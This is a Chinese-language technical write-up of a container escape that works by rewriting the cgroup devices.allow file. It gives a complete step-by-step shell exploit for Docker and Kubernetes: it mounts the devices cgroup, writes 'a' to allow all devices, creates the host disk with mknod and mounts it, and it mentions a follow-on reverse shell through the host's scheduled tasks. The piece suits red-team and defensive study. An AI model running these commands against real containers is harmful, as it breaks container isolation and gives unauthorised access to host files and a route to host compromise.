

# 重写devices.allow逃逸方式原理

## 公开的EXP
CDK：[Exploit: rewrite cgroup devices](https://github.com/cdk-team/CDK/wiki/Exploit:-rewrite-cgroup-devices)

## devices.allow
devices子系统用于配制允许或者阻止cgroup中的task访问某个设备，起到黑白名单的作用，主要包含以下文件
1. devices.allow：cgroup中的task能够访问的设备列表，格式为type major:minor access
   * type表示类型,可以为 a(all), c(char), b(block）
   * major:minor代表设备编号，两个标号都可以用*代替表示所有，比如*:*代表所有的设备
   * accss表示访问方式，可以为r(read),w(write), m(mknod)的组合
2. devices.deny：cgroup 中任务不能访问的设备，和上面的格式相同
3. devices.list：列出 cgroup 中设备的黑名单和白名单

我们在容器中将devices子系统挂载在/tmp/dev/下那么容器本身的配置在以下位置:

1. 在docker环境下，容器自身的devices.allow路径为：`/tmp/dev/docker/[container_id]/devices.allow`，container id可以通过以下命令获得:`cat /proc/self/cgroup | grep docker | head -1 | sed 's/.*\/docker\/\(.*\)/\1/g'`
2. 在k8s环境中，`/tmp/dev/kubepods.slice/kubepods-burstable.slice/`目录下包含当前宿主机所有pod目录大致为kubepods-burstable-pod[id].slice，这个目录下包含是pod中每个container的相关配置，可以通过查看所有挂载找到当前容器所在的位置，执行`mount -l | grep kubepods`,类似如下内容：
   ```shell
   cgroup on /sys/fs/cgroup/systemd/kubepods.slice/kubepods-burstable.slice/kubepods-burstable-podd48471c8_48de_11eb_9ca9_246e96cd3098.slice/docker-014c16f0839f7274ec5075332576435c254c214cdc21ca0cec361ad6749aef1a.scope type cgroup (rw,nosuid,nodev,noexec,relatime,xattr,release_agent=/usr/lib/systemd/systemd-cgroups-agent,name=systemd)
   ```
   那么容器自身的devices.allow路径为：
   ```
   /tmp/dev/kubepods.slice/kubepods-burstable.slice/kubepods-burstable-podd48471c8_48de_11eb_9ca9_246e96cd3098.slice/docker-014c16f0839f7274ec5075332576435c254c214cdc21ca0cec361ad6749aef1a.scope/devices.allow
   ```
通过在devices.allow写入a相当于写入a *:* rwm，允许对所有设备进行read/write/mknod操作

## 利用原理

1. 创建空目录挂载cgroup devices子系统
2. 确定当前容器对应的子cgroup位置
3. 设置其devices.allow文件为a
4. 获得宿主机的设备major和minor
5. 通过mknod根据设备major和minor手动创建设备文件
6. 利用debugfs或直接挂载设备文件访问宿主机文件
7. 设置宿主机定时任务等方式反弹shell

EXP和解释如下：
```shell
# 步骤1
mkdir /tmp/dev && mount -t cgroup -o devices devices /tmp/dev

# 步骤二
##  如果是k8s环境
mount -l | grep kubepods
# cgroup on /sys/fs/cgroup/systemd/kubepods.slice/kubepods-burstable.slice/kubepods-burstable-podd48471c8_48de_11eb_9ca9_246e96cd3098.slice/docker-014c16f0839f7274ec5075332576435c254c214cdc21ca0cec361ad6749aef1a.scope type cgroup (rw,nosuid,nodev,noexec,relatime,xattr,release_agent=/usr/lib/systemd/systemd-cgroups-agent,name=systemd)
cd /tmp/dev/kubepods.slice/kubepods-burstable.slice/kubepods-burstable-podd48471c8_48de_11eb_9ca9_246e96cd3098.slice/docker-014c16f0839f7274ec5075332576435c254c214cdc21ca0cec361ad6749aef1a.scope
## 如果是docker环境
cat /proc/self/cgroup | grep docker | head -1 | sed 's/.*\/docker\/\(.*\)/\1/g'
# 62b8e246d01e978a2cf671a4e67b49782401bd647ae87ad967553598bce7108c
cd /tmp/dev/docker/62b8e246d01e978a2cf671a4e67b49782401bd647ae87ad967553598bce7108c

# 步骤三
echo a > devices.allow && cd /tmp

# 步骤四
cat /proc/self/mountinfo | grep /etc | awk '{print $3,$8}' | head -1
# 253:0 xfs

# 步骤五
mknod host b 253 0

# 步骤六
## 步骤四会输出major和minor和文件系统类型，如果是ext2/ext3/ext4文件系统可以用debugfs直接看目录，如果是xfs文件系统debugfs不支持，直接挂载看就可以
mkdir /tmp/host_dir && mount host /tmp/host_dir
```




## 参考文档
1. [Device Whitelist Controller](https://www.kernel.org/doc/Documentation/cgroup-v1/devices.txt)
2. [红蓝对抗中的云原生漏洞挖掘及利用实录](https://security.tencent.com/index.php/blog/msg/183)
3. [Exploit:-rewrite-cgroup-devices](https://github.com/cdk-team/CDK/wiki/Exploit:-rewrite-cgroup-devices)